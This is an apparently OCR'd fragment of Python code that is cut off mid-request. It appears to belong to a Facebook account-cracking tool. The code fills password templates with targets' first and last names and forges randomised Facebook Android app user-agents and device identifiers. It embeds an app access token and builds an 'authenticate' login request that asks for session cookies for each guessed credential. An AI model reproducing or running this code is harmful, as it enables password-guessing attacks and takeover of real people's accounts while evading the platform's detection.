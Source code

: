                         pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=3.0,width=1080,height=2376};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',
                                'device_id':device_id,
                                'email':ids,
                                'password':pas,
                                'generate_analytics_claims':'1',
                                'credentials_type':'password',
                                'source':'login',
                                'error_detail_type':'button_with_disabled',
                                'enroll_misauth':'false',
                                'generate_session_cookies':'1',
                                'generate_machine_id':'1',
                                'meta_inf_fbmeta':'',
                                'currently_logged_in_userid':'0',
                                'fb_api_req_friendly_name':'authenticate',
                        }
                        headers = {
    'authority': 'www.facebook.com',
    'accept': '*/*',
    'accept-language': 'en-US,en;q=0.9,ur-PK;q=0.8,ur;q=0.7',
    'content-type': 'application/x-www-form-urlencoded',